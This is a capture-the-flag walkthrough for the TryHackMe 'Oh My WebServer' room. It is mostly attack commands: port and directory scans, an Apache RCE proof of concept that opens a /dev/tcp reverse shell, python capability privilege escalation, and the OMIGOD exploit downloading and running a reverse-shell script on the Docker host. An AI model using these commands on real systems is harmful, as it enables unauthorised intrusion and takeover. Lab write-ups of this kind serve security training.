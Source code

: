 # Oh My WebServer

**Room Link:** [https://tryhackme.com/room/ohmyweb](https://tryhackme.com/room/ohmyweb)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50383](https://www.exploit-db.com/raw/50383)

**Kali**

```
nc -lvnp 1337
```

**Kali**

```
wget https://www.exploit-db.com/raw/50383 -O poc.sh
chmod +x poc.sh
./poc.sh targets.txt /bin/bash "bash -c 'bash -i >& /dev/tcp/$KALI/1337 0>&1'"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Privileges Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
getcap -r / 2>/dev/null
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



#### Nmap

Scanned the gateway&#x20;

**Kali**

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/nmap -O nmap
chmod +x nmap
./nmap -p- 172.17.0.1 --min-rate=700 -vvv
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privileges Escalation / Breakout of Docker



**shell.sh**

```
#!/bin/bash

sh -i >& /dev/tcp/$KALI/1338 0>&1
```

**Kali**

```
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/omigod.py -O omigod.py
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
python3 omigod.py -t 172.17.0.1 -c "curl http://$KALI:81/shell.sh -O shell.sh"
python3 omigod.py -t 172.17.0.1 -c "chmod +x shell.sh"
python3 omigod.py -t 172.17.0.1 -c "./shell.sh"
```

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
